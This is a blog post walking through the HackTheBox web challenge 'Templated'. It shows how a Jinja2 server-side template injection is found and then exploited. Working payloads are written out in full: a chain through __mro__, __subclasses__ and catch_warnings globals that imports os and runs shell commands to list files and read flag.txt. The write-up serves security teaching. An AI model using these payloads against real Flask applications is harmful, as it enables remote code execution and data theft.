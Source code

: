 ```yaml
---
layout: blog
type: blog
title: "HackTheBox Web Challenge: Templated"
# All dates must be YYYY-MM-DD format!
date: 2021-08-07
published: true
labels:
  - CTF
  - HackTheBox
  - Web Security
  - SSTI
---
```


![HTB Templated Banner](../img/templated/banner.png)

> Description:
> Can you exploit this simple mistake?

## Intro

Templated is a web challenge on HackTheBox. When we first visit the website we get this index page.

![Homepage view](../img/templated/index.PNG)

Note that the website is powered by Flask and the Jinja2 python template engine.

The index page doesn't show anything interresting, neither does the request/response headers. So I moved to directory/file fuzzing in hopes of finding something. **Gobuster** wasn't successful since the website was returning status code 200 for every URL tried. So I tried to access a URL in the browser to see the result.

![Template injection test](../img/templated/test.PNG)

Okay, so we can see that a template is being used here to create a dynamic page that notifies the user that the page was not found. notice also that user-supplied in the URL is being reflected in the page content, that might be our way in. Yes, XSS comes to mind first (there is a very basic filter that can be bypassed) and it works, but that doesn't get us the flag to solve the challenge. Next, FLask/Jinja2 SSTi comes to mind...

## Server-Side Template Injection

simply put, SSTi allows an attacker to inject a template directive as user input that can execute arbitrary code on the server. That happens when developers don't follow best practices and use unsanitized user input. So let's test for SSTi.

Let's start by appending **{{1+1}}** to the URL
```
http://46.101.23.188:32368/{{1+1}}
```

![Math operation test](../img/templated/1plus1.PNG)

We can see that the mathematical expression was evaluated and its result reflected back to us. This means that the python code injected inside **{{}}** will be executed on the server.
Great, now let's remember that our goal is to get the flag, to do that we either need to pop a shell on the server, or simply read a file stored on the server, and since we have code execution, both can be done.
But **HOW**??
SSTi is a big topic that cannot be covered in one blog post, so you can refer to [this](https://portswigger.net/research/server-side-template-injection) and [this](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti) as an intro. Note that SSTi affects different platforms (not just Flask/Jinja2) but the idea is the same. I'll try to explain what's going on without going too much into details.
Here we are working with Python, our goal is to access the **os** module in order to run commands on the server.

## __mro__, __subclasses__, And Reading flag.txt
We have to work with Python objects, the goal is to find a object in our environment that has access the **__import__** builtin function.
In python **__mro__** allows us to go back up the tree of inherited objects in the current Python environment, and **__subclasses__** lets us come back down. Basically, you can crawl up the inheritance tree of the known objects using **mro**, and branch out to any subclass of any object, thus accessing every class loaded in the current python environment.

Let's start with the **string** class since we have direct access to it, and then we will gradually modify our input based on our goal.
```
http://46.101.23.188:32368/{{"".__class__.__mro__[1]}}
```

![MRO exploration](../img/templated/mro.PNG)

**str.__mro__[1]** is the **object** class which is the parent node in the inheritance tree.
Now we have to move down the inheritance tree so let's list all subclasses that can be accessed from **object**
```
http://46.101.23.188:32368/{{"".__class__.__mro__[1].__subclasses__()}}
```

![Subclasses enumeration](../img/templated/subclasses.PNG)

Here we can see some of those classes. Now our goal is to find a class that has the **__import__** builtin function accessible in its module. One such class is **warnings.catch_warnings** at offset **186** in the subclasses list. So our input becomes:
```
http://46.101.23.188:32368/{{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]}}
```

![Import module access](../img/templated/import.PNG)

We can see that the **__import__** function can be accessed from **catch_warnings**'s global namespace.
The **__globals__["__builtins__"]** dictionary allows us to access everything defined in the global namespace of the module in which a function resides, in this case, the function is the constructor of the **warnings.catch_warnings** class **__init__.
Okay, so we can access the **__import__** method. Now we have to call it to import the **os** module, and then we can call **popen()** which executes a command and opens a pipe from it so that we can **read()** its output:
```
http://46.101.23.188:32368/{{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("ls *").read()}}
```

![File system access](../img/templated/files.PNG)

The **ls** command shows us that the file **flag.txt** is present and thus can be accessed directly:
```
http://46.101.23.188:32368/{{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("cat flag.txt").read()}}
```

![Flag captured](../img/templated/flag1.PNG)

Done!